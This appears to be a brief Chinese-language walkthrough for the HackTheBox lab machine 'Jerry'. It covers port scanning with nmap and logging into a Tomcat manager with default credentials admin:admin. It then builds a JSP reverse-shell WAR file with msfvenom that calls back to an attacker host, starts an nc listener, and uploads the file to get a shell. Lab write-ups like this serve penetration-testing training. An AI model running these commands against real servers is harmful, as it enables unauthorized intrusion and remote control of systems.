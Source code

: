 # Jerry

1.  nmap 扫描

    ```shell
    nmap -sT -p- --min-rate 1000 10.10.10.95
    	PORT     STATE SERVICE
    	8080/tcp open  http-proxy

    sudo nmap -sU -p- --min-rate 1000 10.10.10.95
    ```
2. 在这里看到是一个 Tomcat 7.0.88 在这里我们使用 默认登陆凭据试一下 `admin:admin` 登录成功
3. 在跳转 /manger/html 页面中出现了登陆的用户名以及密码，进行登陆就可以看到上传 war 包界面
4.  使用 msfvenom 生成 后门

    ```shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f war > shell.war
    # 生成后使用下面命令查看文件夹结构
    jar -ft shell.war

    # 启用监听
    nc -nvlp 4444
    ```
5. 在页面进行上传后，访问页面即可就可以获得 shell
